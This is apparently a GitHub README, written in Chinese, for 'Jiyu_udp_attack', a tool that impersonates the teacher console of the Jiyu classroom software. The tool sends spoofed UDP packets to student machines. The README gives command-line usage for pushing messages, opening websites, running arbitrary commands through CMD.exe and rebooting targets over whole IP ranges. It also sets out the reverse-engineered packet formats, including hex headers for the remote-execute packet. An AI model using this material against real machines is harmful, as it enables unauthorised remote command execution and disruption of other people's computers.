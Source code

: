# Jiyu_udp_attack

[![GitHub release](https://img.shields.io/github/release/weilycoder/Jiyu_udp_attack.svg)](https://github.com/weilycoder/Jiyu_udp_attack/releases/latest)

利用极域电子教室的 udp 包攻击学生机。

对这方面技术的了解来自 [ht0Ruial/Jiyu_udp_attack](https://github.com/ht0Ruial/Jiyu_udp_attack/)。

## Environment

项目的 Python 为 3.13，即使经 PyInstaller 打包也对 Win 7 系统不太友好。未来可能向下兼容。

此外，为了移除 scapy 依赖，项目使用原始套接字进行请求，在大部分系统上可能需要管理员权限。

## Usage

你可以从 Python 导入 `Jiyu_udp_attack` 模块，也可以使用命令行 `python Jiyu_udp_attack`。

使用 `python Jiyu_udp_attack -h` 来获取帮助信息：

```
usage: Jiyu_udp_attack [-h] -s TEACHER_IP [-f TEACHER_PORT] -t TARGET [-p PORT] [-i IP_ID] (-m MESSAGE | -w WEBSITE | -c COMMAND | -r [timeout [message] ...])

Jiyu Attack Script

options:
  -h, --help            show this help message and exit
  -s, --teacher-ip TEACHER_IP
                        Teacher's IP address
  -f, --teacher-port TEACHER_PORT
                        Teacher's port (default to random port)
  -t, --target TARGET   Target IP address
  -p, --port PORT       Port to send packets to (default: 4705)
  -i, --ip-id IP_ID     IP ID for the packet (default: random ID)
  -m, --message MESSAGE
                        Message to send
  -w, --website WEBSITE
                        Website URL to ask to open
  -c, --command COMMAND
                        Command to execute on the target
  -r, --reboot [timeout [message] ...]
                        Reboot the target machine, optionally with a timeout and message

Github Repositories: https://github.com/weilycoder/Jiyu_udp_attack/tree/main/
```

其中目标 ip 的指定使用了 [ht0Ruial/Jiyu_udp_attack](https://github.com/ht0Ruial/Jiyu_udp_attack/) 的创意，可以：

+ 指定具体 ip，如 `192.168.3.103`；
+ 指定 ip 范围，如 `192.168.3.100-150`；
+ 指定 ip 段，如 `192.168.3.0/24`。

最多指定 65536 个不同 ip。

## Jiyu API

记录抓包得到的极域 udp 包格式。

不记录包头信息，只记录 Data 格式。

子标题名是我自己起的。

### Message

用于教师端向学生端发送信息。

Data 区长 $954$。

| 长度  |                            内容                            |
| :---: | :--------------------------------------------------------: |
| $12$  |                 `444d4f43000001009e030000`                 |
| $16$  |                        随机二进制串                        |
| $28$  | `204e0000c0a86c019103000091030000000800000000000005000000` |
| $800$ |               信息内容，使用 `utf-16le` 编码               |
| $98$  |                  全 $0$ 段，可能是保留区                   |

### Execute

用于教师端在学生端远程执行命令。

Data 区长 $906$。

| 长度  |                             内容                             |
| :---: | :----------------------------------------------------------: |
| $12$  |                  `444d4f43000001006e030000`                  |
| $16$  |                         随机二进制串                         |
| $32$  | `204e0000c0a8e901610300006103000000020000000000000f00000001000000` |
| $512$ |             可执行程序位置，使用 `utf-16le` 编码             |
| $254$ |                执行参数，使用 `utf-16le` 编码                |
| $66$  |                          全 $0$ 段                           |
|  $1$  |       正常启动 `00`；最小化启动 `01`；最大化启动 `02`        |
| $13$  |                 `00000001000000000000000000`                 |

另外，脚本的 `-c` 功能实际上是使用参数 `f'/D /C "{args.command}"'` 打开程序 `CMD.exe`，这里参数使用 Python 的字符串格式化语法表示。

### Website

用于教师端在学生端远程打开网站。

Data 区变长，至少 $64$ 个字节。

|      长度       |                内容                |
| :-------------: | :--------------------------------: |
|       $8$       |         `444d4f4300000100`         |
|       $4$       |   $\mathrm{size}+36$，小端序编码   |
|      $16$       |            随机二进制串            |
|       $8$       |         `204e0000c0a8e901`         |
|       $4$       |   $\mathrm{size}+23$，小端序编码   |
|       $4$       |   $\mathrm{size}+23$，小端序编码   |
|      $16$       | `00020000000000001800000000000000` |
| $\mathrm{size}$ |     网址，使用 `utf-16le` 编码     |
|       $4$       |             全 $0$ 段              |

## License

MIT 协议。
